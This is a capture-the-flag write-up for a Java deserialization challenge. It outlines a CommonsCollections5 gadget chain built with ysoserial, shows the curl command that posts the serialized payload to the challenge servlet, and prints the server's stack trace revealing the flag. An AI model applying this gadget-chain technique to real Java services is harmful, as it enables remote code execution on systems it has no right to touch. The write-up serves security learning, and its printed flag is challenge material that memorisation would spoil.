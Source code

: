# Misc 300

The flag marshal has falsely imprisoned a flag for being a deserial killer. Your mission is simple, break the flag out of the marshal's jail (http://theflagmarshal.us-east-1.elasticbeanstalk.com/). In addition to the bad puns, you seem to have stumbled upon another clue, blueprint.war.

# Analysis

You are given a Java servlet that receives data sent via POST request, deserializes it and converts to a Person object. However, sending the data normally won't get you the flag. You need to find a way around that to get the flag (from the Flag class)

After decompiling the classes and inspecting them, here are the bits of information you need to solve the challenge:
* If there is an error in deserialization, the exception is thrown back to the client
* Flag can be retrieved by an exception thrown from Flag.getFlag().
* So the goal is to send a payload that invokes Flag.getFlag() when deserialized. This is not a simple task.
* To make things tougher for everyone, CustomOIS has been designed to only accept some certain classes in the invocation chain (see [CustomOIS.java](CustomOIS.java))

# Solution

Deserialization vulnerabilities have been used a lot recently in CTFs, however they are mostly in Python (probably due to the fact that many players use Python nowadays). That doesn't mean Java vulnerabilities have not been researched. In fact, there have been many publications about them:
* [OWASP - Deserialization of untrusted data] (https://www.owasp.org/index.php/Deserialization_of_untrusted_data)
* [What Do WebLogic, WebSphere, JBoss, Jenkins, OpenNMS, and Your Application Have in Common? This Vulnerability.] (https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/)
* [Blind Java Deserialization Vulnerability - Commons Gadgets] (https://deadcode.me/blog/2016/09/02/Blind-Java-Deserialization-Commons-Gadgets.html)
* [ysoserial - A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.] (https://github.com/frohoff/ysoserial)

Now it's clear what to do. Although the description is a bit misleading, [CommonsCollections5] (https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java) can be used to build the gadget chain, something like this (the methods might be wrong, you need some debugging to get it right, but it doesn't matter even the chain in ysoserial comments is wrong too and you don't really need to care):

```
ObjectInputStream.readObject()
  BadAttributeValueExpException.toString()
    TiedMapEntry.toString()
      LazyMap.get()
        ChainedTransformer.transform()
        ConstantTransformer.transform()
        InvokerTransformer.transform()
          Method.invoke()
            Class.getMethod()
        InvokerTransformer.transform()
          Method.invoke()
            Flag.getFlag()
```

Full code to generate the payload: [FlagWriter.java] (FlagWriter.java)

Now just send the payload to the server and the flag is thrown in exception:
```
C:\ctf_tools\curl-7.61.1-win64-mingw\bin>curl --data-binary @"MyFlag.bin" http://theflagmarshal.us-east-1.elasticbeanstalk.com/jail
org.apache.commons.collections.FunctorException: InvokerTransformer: The method 'invoke' on 'class java.lang.reflect.Method' threw an exception
        at org.apache.commons.collections.functors.InvokerTransformer.transform(InvokerTransformer.java:132)
        at org.apache.commons.collections.functors.ChainedTransformer.transform(ChainedTransformer.java:122)
        at org.apache.commons.collections.map.LazyMap.get(LazyMap.java:151)
        at org.apache.commons.collections.keyvalue.TiedMapEntry.getValue(TiedMapEntry.java:73)
        at org.apache.commons.collections.keyvalue.TiedMapEntry.toString(TiedMapEntry.java:131)
        at javax.management.BadAttributeValueExpException.readObject(BadAttributeValueExpException.java:86)
        at sun.reflect.GeneratedMethodAccessor24.invoke(Unknown Source)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
        at java.lang.reflect.Method.invoke(Method.java:498)
        at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
        at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2177)
        at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2068)
        at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1572)
        at java.io.ObjectInputStream.readObject(ObjectInputStream.java:430)
        at com.trendmicro.Server.doPost(Server.java:31)
        at javax.servlet.http.HttpServlet.service(HttpServlet.java:661)
        at javax.servlet.http.HttpServlet.service(HttpServlet.java:742)
        at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:231)
        at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)
        at org.apache.tomcat.websocket.server.WsFilter.doFilter(WsFilter.java:52)
        at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:193)
        at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)
        at org.apache.catalina.core.StandardWrapperValve.invoke(StandardWrapperValve.java:198)
        at org.apache.catalina.core.StandardContextValve.invoke(StandardContextValve.java:96)
        at org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:493)
        at org.apache.catalina.core.StandardHostValve.invoke(StandardHostValve.java:140)
        at org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:81)
        at org.apache.catalina.valves.RemoteIpValve.invoke(RemoteIpValve.java:685)
        at org.apache.catalina.valves.AbstractAccessLogValve.invoke(AbstractAccessLogValve.java:650)
        at org.apache.catalina.core.StandardEngineValve.invoke(StandardEngineValve.java:87)
        at org.apache.catalina.connector.CoyoteAdapter.service(CoyoteAdapter.java:342)
        at org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:800)
        at org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:66)
        at org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:800)
        at org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1471)
        at org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:49)
        at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149)
        at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624)
        at org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61)
        at java.lang.Thread.run(Thread.java:748)
Caused by: java.lang.reflect.InvocationTargetException
        at sun.reflect.GeneratedMethodAccessor27.invoke(Unknown Source)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
        at java.lang.reflect.Method.invoke(Method.java:498)
        at org.apache.commons.collections.functors.InvokerTransformer.transform(InvokerTransformer.java:125)
        ... 39 more
Caused by: java.lang.reflect.InvocationTargetException
        at sun.reflect.GeneratedMethodAccessor26.invoke(Unknown Source)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
        at java.lang.reflect.Method.invoke(Method.java:498)
        ... 43 more
Caused by: java.lang.Exception: TMCTF{15nuck9astTheF1agMarsha12day}
        at com.trendmicro.jail.Flag.getFlag(Flag.java:10)
        ... 46 more
```

*Flag* is *TMCTF{15nuck9astTheF1agMarsha12day}*

